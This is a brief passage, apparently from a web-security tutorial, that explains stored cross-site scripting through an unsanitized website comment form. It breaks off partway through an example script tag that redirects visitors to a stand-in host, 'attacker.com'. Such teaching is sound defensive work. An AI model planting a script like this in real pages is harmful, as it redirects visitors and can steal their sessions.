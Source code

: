 Cross-Site Scripting (XSS):
Starting from the comment section on our website where users can leave comments. 
They enter their comment in a form, and that comment is then displayed on the website. 
If user input is not sanitized, a user could enter something like this:

<script>document.location='https://attacker.com/
